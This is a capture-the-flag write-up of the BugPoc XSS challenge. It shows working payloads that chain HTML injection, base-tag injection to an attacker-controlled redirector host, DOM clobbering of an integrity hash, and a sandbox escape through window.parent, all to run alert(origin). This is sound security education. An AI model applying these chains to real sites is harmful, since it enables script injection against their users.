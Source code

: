 ```yaml
---
layout: post
title: "BugPoc XSS Challenge"
tags: [Xss]
comments: true
---
```


BugPoc XSS Challenge
> I am not the one who solves this challenge quickly. After I got up, I saw that someone had submitted it 9 hours ago. But I learned something and some new thinking from this challenge, so I recorded it.Try to get the reward of the best blog.

### Challenge Details
[![](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)
Wacky Text Generator (https://wacky.buggywebsite.com)<br>
Rules: Must alert(origin), must bypass CSP, must work in Chrome, must provide a BugPoC demo

### Solving
#### Step 1 : Found html injection
I first opened the challenge page and checked the source code<br>
[![图片一](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")
Found a page https://wacky.buggywebsite.com/frame.html?param=Hello,%20World!<br>
Manual test parameter<br>
After finding the closed `<title>` tag. Can inject html code
[![](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)
In fact, when I first viewed this page, I first checked the source code of the page, read the js, and then discovered this html injection

#### Step 2 :Bypass CSP
Although we have found html injection, it cannot perform xss
[![](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)
Because
[![](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)
```
content-security-policy: script-src 'nonce-kplddkwaepak' 'strict-dynamic'; frame-src 'self'; object-src 'none';
```
You can use [this](https://csp-evaluator.withgoogle.com/http:// "this") to check csp security
[![](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain<br>
Just use the previously found html injection to inject `<base href="">`<br>
Since this is a ctf challenge, this may be a breakthrough. (If bugbounty, this may not have any effect).I did find relative (script) injection in the js at the bottom
[![](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)
But this has to be judged by `if (window.name =='iframe')`<br>
This site `x-frame-options: SAMEORIGIN` cannot use iframe<br>
But  we can set window.name through window.open()<br>
Such as
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=xss","iframe");
</script>
```
##### First try
```
if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
```
After reading this js, I initially thought it would create an iframe and write a `<script src="files/analytics/js/frame-analytics.js">` in it
[![](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)
I only need to inject the `<base>` tag, control the base-URL to my own domain , and upload a file `/files/analytics/js/frame-analytics.js`, load my own js.
Use [bugpoc mock](https://bugpoc.com/testers/other/mock "bugpoc mock") to construct POC
[![](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)
Then use  [Flexible Redirector](https://bugpoc.com/testers/other/redir "Flexible Redirector") for 302 redirection
[![](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)
get https://le8497ljneda.redir.bugpoc.ninja/files/analytics/js/frame-analytics.js content `alert(origin);`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no
[![](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)
##### Second
Read this [Subresource Integrity](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity "Subresource Integrity")<br>
This helps me understand what is happening<br>
After that I fell into a dead end,I have been thinking about how to bypass SRI,It took a while.(It seems that need to find a browser vulnerability to solve the problem, so the idea at the time was wrong)<br>
After changing mind, only try to modify the value of `integrity`
```
	<script nonce="lxggbsrloata">
	
		window.fileIntegrity = window.fileIntegrity || {
			'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
			'algorithm' : 'sha256',
			'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
			'creationtime' : 1602687229
		}
	
		// verify we are in an iframe
		if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
		
	</script>
```
To modify the value of `integrity` first,  must modify `fileIntegrity.value`.<br>

`window.fileIntegrity = window.fileIntegrity || {...}`<br>
Seeing this, I thought that as long as I created a `window.fileIntegrity` using the previously discovered html injection,  could change the `fileIntegrity.value`<br>
Because js is a "accommodating" language.For example,  `name` of `iframe`, `id` of `input`. In the unoccupied case, it will change from assignment to dom selector, so it can be used to hijack regular parameters (value href name id src ref..)<br>
`<input id='fileIntegrity'  value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='>`   modify `fileIntegrity.value`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='aErQrfRCGgdInIpMEDCWj2%2bHQUab648smjdgPAUdBKU='><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no again
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)
`<iframe sandbox="allow-scripts allow-same-origin" class="invisible"></iframe>`<br>
But the security of using `allow-scripts` `allow-same-origin` at the same time is very low<br>
Because can manipulate the parent window.Just use the alert() of the parent window<br>
Modify the content of `/files/analytics/js/frame-analytics.js` to `window.parent.alert(origin);`<br>

###### Final Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='><base href='https://960ejm5yq2xy.redir.bugpoc.ninja/'>","iframe");
</script>
```
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)

### Conclusion
Sorry for my poor English<br>
In order for everyone to understand, the article is written in detail<br>
Although this challenge is simple, it does show that sometimes changing the way of thinking can make the problem very easy<br>
If you have any questions, welcome dm me([jinonehk](https://twitter.com/jinonehk "jinonehk"))
